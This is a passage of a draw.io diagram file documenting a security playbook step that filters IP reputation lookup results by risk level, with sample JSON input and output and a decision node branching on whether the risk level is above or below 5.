class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;168.63.129.16&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;80&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;3&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;RawData&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;54.183.140.32&quot;,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 917998624,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 29,&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 2&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; },&lt;/p&gt;&lt;p&gt;&amp;nbsp; &amp;nbsp; &quot;BeautifiedHtml&quot;: &quot;&amp;amp;lt;table class=&#39;cc-table horizontal-table&#39;&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Type&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Indicator&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Reputation Score&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;Category Group&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;th&amp;amp;gt;D3 Risk Level&amp;amp;lt;/th&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;tr&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;IPv4&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;54.183.140.32&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;29&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;None&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;td&amp;amp;gt;2&amp;amp;lt;/td&amp;amp;gt;&amp;amp;lt;/tr&amp;amp;gt;&amp;amp;lt;/table&amp;amp;gt;&quot;&lt;/p&gt;&lt;p&gt;&amp;nbsp; }&lt;/p&gt;&lt;p&gt;]&lt;/p&gt;&lt;p&gt;&amp;nbsp;&amp;nbsp;&lt;/p&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5285" y="685" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-196" value="&lt;h1&gt;Input&lt;/h1&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;&lt;div&gt;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;/div&gt;&lt;div&gt;Data Formatter&lt;/div&gt;&lt;div&gt;{% set results = PlaybookData | jsonpath(&#39;$.[&quot;Check IP Reputation - Webroot&quot;].rawData.results&#39;) %}&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;{{results|jsonpath(&#39;$[?queries.getinfo.riskLevel &amp;gt;= 5]&#39;)}}&lt;/div&gt;&lt;p&gt;&lt;/p&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="640" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-197" value="&lt;h1&gt;Output&lt;br&gt;&lt;/h1&gt;&lt;div&gt;&lt;div&gt;[&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;52.33.195.208&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 874628048,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 89,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;100.64.0.6&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 1681915910,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 100,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;204.79.197.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 3427780079,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 81,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; },&lt;/div&gt;&lt;div&gt;&amp;nbsp; {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;ip&quot;: &quot;13.107.21.239&quot;,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &quot;queries&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;getinfo&quot;: {&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ipint&quot;: 225121775,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;ip_status&quot;: 0,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;reputation&quot;: 83,&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; &amp;nbsp; &quot;riskLevel&quot;: 5&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; &amp;nbsp; }&lt;/div&gt;&lt;div&gt;&amp;nbsp; }&lt;/div&gt;&lt;div&gt;]&lt;/div&gt;&lt;div&gt;&amp;nbsp;&amp;nbsp;&lt;/div&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;&lt;div&gt;&lt;br&gt;&lt;/div&gt;" style="text;html=1;strokeColor=none;fillColor=default;spacing=5;spacingTop=-20;whiteSpace=wrap;overflow=hidden;rounded=0;" vertex="1" parent="1">
          <mxGeometry x="5655" y="675" width="200" height="100" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-201" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-199">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-203" value="Risk Level &amp;gt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-201">
          <mxGeometry x="0.147" y="-4" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-202" style="edgeStyle=orthogonalEdgeStyle;rounded=0;orthogonalLoop=1;jettySize=auto;html=1;entryX=0;entryY=0.5;entryDx=0;entryDy=0;" edge="1" parent="1" source="NKeEgVbL9whLPdXC6YmX-198" target="NKeEgVbL9whLPdXC6YmX-200">
          <mxGeometry relative="1" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-204" value="Risk Level &amp;lt; 5&amp;nbsp;" style="edgeLabel;html=1;align=center;verticalAlign=middle;resizable=0;points=[];" vertex="1" connectable="0" parent="NKeEgVbL9whLPdXC6YmX-202">
          <mxGeometry x="0.051" y="-2" relative="1" as="geometry">
            <mxPoint as="offset" />
          </mxGeometry>
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-198" value="Get Malicious IPs&lt;br style=&quot;border-color: var(--border-color);&quot;&gt;Data Formatter" style="rhombus;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5690" y="810" width="135" height="130" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-199" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="775" width="120" height="60" as="geometry" />
        </mxCell>
        <mxCell id="NKeEgVbL9whLPdXC6YmX-200" value="" style="rounded=1;whiteSpace=wrap;html=1;" vertex="1" parent="1">
          <mxGeometry x="5970" y="940" width="120" height="60" as="geometry" />
        </mxCell>
      </root>
    </mxGraphModel>
  </diagram>
</mxfile>
